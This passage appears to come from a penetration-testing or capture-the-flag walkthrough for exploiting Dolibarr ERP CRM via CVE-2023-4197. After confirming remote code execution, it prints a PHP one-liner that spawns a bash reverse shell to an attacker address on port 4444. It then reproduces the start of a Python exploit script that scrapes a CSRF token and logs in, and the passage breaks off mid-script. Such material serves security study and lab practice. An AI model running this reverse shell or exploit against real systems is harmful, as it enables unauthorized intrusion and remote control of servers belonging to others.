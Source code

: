 This time, it succeeds, and the output confirms RCE.

# 0x4 Gaining a Shell

With RCE, spawn a reverse shell. Upload a PHP reverse shell script or use the existing RCE to get a reverse shell:

```
<?php system('bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"'); ?>
```

Modify the exploit script:

```
# Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197)
# Via: https://TARGET_HOST/website/index.php
# Author: Poh Jia Hao (STAR Labs SG Pte. Ltd.)

#!/usr/bin/env python3
import os
import re
import requests
import sys
import uuid
requests.packages.urllib3.disable_warnings()

s = requests.Session()

def check_args():
    global target, username, password, cmd

    print("\n===== Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197) =====\n")

    if len(sys.argv) != 5:
        print("[!] Please enter the required arguments like so: python3 {} https://TARGET_URL USERNAME PASSWORD CMD_TO_EXECUTE".format(sys.argv[0]))
        sys.exit(1)

    target = sys.argv[1].strip("/")
    username = sys.argv[2]
    password = sys.argv[3]
    cmd = sys.argv[4]

def authenticate():
    global s, csrf_token

    print("[+] Attempting to authenticate...")

    # GET the CSRF token
    res = s.get(f"{target}/", verify=False)
    csrf_token = re.search("\"anti-csrf-newtoken\" content=\"(.+)\"", res.text).group(1).strip()

    # Login
    data = {
        "token": csrf_token,
        "username": username,
        "password": password,
        "actionlogin": "login"
    }
    res = s.post(f"{target}/", data=data, verify=False)

    if "Logout" not in res.text:
        print("[!] Authentication failed! Are the credentials valid?")
        sys.exit(1)
```